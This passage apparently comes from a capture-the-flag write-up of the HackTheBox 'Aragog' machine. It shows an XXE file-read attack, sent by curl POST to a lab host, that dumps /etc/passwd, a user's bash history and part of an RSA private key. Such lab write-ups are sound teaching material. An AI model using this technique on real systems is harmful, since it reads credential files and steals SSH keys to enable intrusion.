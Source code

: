 ```bash
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
```
Looks like it worked.  We see that there are two users that can login other than root: florian and cliff since they have shells that are not nologin or /bin/false.

Let's poke around for files that should be in a user's home directory when they are running bash, like .bash_history.  For each example, we will modify our test_xxe.xml with the path to the file instead of /etc/passwd.  I decided to start with files in home directories because those are quick wins if we can access them.  In practice, files in users' home directories should not be readable by other users.  If we can read a user's files, the service is running as that user or as root.  It is also possible that the user misconfigured permissions in his home directory.

We can read florian's bash history:
```bash
groups
cat /etc/passwd
su root
sudo -l
cat /etc/groups
cat /etc/group
grep "lxd" /etc/group
grep "cliff" /etc/group
grep "lxd" /etc/group
init 0
su root
```
When I tried to read cliff's .bash_history, it did not work.  This means that the service is running as florian, root, or this file is open to the world.  We can see that florian may be able to escalate privileges to root using sudo or by knowing root's password and using su.  With our technique, all we can do is read files from the file system.  Since the box has SSH open, it is possible that florian has an SSH key we can read.  SSH keys are typically made by running the ```ssh-keygen``` command.  By default, ssh-keygen places SSH keys in /home/<user>/.ssh/id_rsa (private key) and id_rsa.pub (public key).  Let's see if we can find florian's private key (it may be under /home/florian/.ssh/id_rsa).  I modified the xxe entity in test_xxe.xml to point to /home/florian/.ssh/id_rsa.

```bash
root@kali:~/ctf/hackthebox/aragog# curl -X POST -d @test_xxe.xml "http://10.10.10.78/hosts.php"

There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
```